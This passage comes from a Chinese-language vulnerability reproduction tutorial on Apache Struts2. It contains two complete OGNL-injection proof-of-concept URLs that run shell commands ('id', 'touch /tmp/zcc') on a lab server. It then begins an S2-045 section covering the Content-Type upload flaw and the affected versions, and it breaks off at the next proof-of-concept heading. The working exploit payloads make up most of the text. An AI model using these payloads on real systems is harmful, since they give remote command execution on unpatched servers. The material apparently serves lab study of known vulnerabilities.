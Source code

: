 ![image-20210711144753479](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0b69935ea4ccd1412cf0594f630c4bf20127e73e.png)

##### 返回1001060253718则代表可代码执行！

#### poc-2（查看id）

```php
http://192.168.0.109:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&amp;pp=%5C%5CA&amp;ppp=%20&amp;encoding=UTF-8&amp;cmd=id
```

![image-20210711144938819](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d240d3597701bda2db5fcf3253aed7ea1edaceca.png)

#### poc-3（创建文件夹）

```php
http://192.168.0.109:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&amp;pp=%5C%5CA&amp;ppp=%20&amp;encoding=UTF-8&amp;cmd=touch%20/tmp/zcc
```

![image-20210711145130656](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d3097abd71ca7c4880133e6f6d0d32ce808ab8af.png)

### 4.13 S2-045远程代码执行漏洞

#### 漏洞原理

##### 在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行。恶意用户可在上传文件时通过修改HTTP请求头中的Content—Type值来触发该漏洞，进而执行系统命令。

#### 影响版本

```php
Struts2.3.5 – 2.3.31
Struts2.5 – 2.5.10
```

#### 启动漏洞

![image-20210711150010054](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-78ca1634b230c29c5db46895b0b43cc5d41c82b4.png)

![image-20210711150027817](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-726d718546b02c893bdce1f2e45bad467615194a.png)

#### poc-1
